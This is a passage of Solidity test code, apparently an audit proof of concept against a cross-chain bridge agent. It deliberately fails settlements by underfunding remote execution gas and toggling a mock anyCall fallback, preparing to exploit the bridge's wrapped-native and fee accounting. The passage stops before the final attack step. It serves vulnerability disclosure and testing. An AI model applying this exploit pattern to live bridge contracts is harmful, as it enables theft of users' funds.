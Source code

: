 ```solidity
        MockERC20(address(avaxMockAssetToken)).approve(address(avaxPort), 1 ether);

        
        // Print out the amounts of WrappedNative & AccumulateAwards state 
        console2.log("RootBridge WrappedNative START",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES START", multicallBridgeAgent.accumulatedFees());

        // Attacker's underlying avax mock token balance
        console2.log("Attacker underlying token balance avax", avaxMockAssetToken.balanceOf(attacker));

        // Prepare a single deposit with remote gas that will cause the remote exec from the root to branch to fail
        // We will have to mock this fail since we don't have the MultiChain contracts, but the provided 
        // Mock Anycall has anticipated for that

        DepositInput memory deposit = _prepareDeposit();
        uint128 remoteExecutionGas = 2_000_000_000;

        Multicall2.Call[] memory calls = new Multicall2.Call[](0);

        OutputParams memory outputParams = OutputParams(attacker, globalAddress, 500, 500);
        
        bytes memory params = abi.encodePacked(bytes1(0x02),abi.encode(calls, outputParams, avaxChainId));

        console2.log("ATTACKER ETHER BALANCE START", attacker.balance);

        // Toggle anyCall for 1 call (Bridge -> Root), this config won't do the 2nd anyCall
        // Root -> Bridge (this is how we mock BridgeAgent reverting due to insufficient remote gas)
        MockAnycall(localAnyCallAddress).toggleFallback(1);

        // execute
        hevm.prank(attacker);
        // in reality we need 0.00000002 (supply a bit more to make sure we don't fail execution on the root)
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.00000005 ether }(params, deposit, remoteExecutionGas);

        // Switch to normal mode 
        MockAnycall(localAnyCallAddress).toggleFallback(0);
        // this will call anyFallback() on the Root and Fail the settlement
        MockAnycall(localAnyCallAddress).testFallback();

        // Repeat for 1 more settlement
        MockAnycall(localAnyCallAddress).toggleFallback(1);
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.00000005 ether}(params, deposit, remoteExecutionGas);
        
        MockAnycall(localAnyCallAddress).toggleFallback(0);
        MockAnycall(localAnyCallAddress).testFallback();
        
        // Print out the amounts of WrappedNative & AccumulateAwards state  after failing the settlements but before the attack 
        console2.log("RootBridge WrappedNative AFTER SETTLEMENTS FAILUER BUT BEFORE ATTACK",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES AFTER SETTLEMENTS FAILUER BUT BEFORE ATTACK", multicallBridgeAgent.accumulatedFees());

```
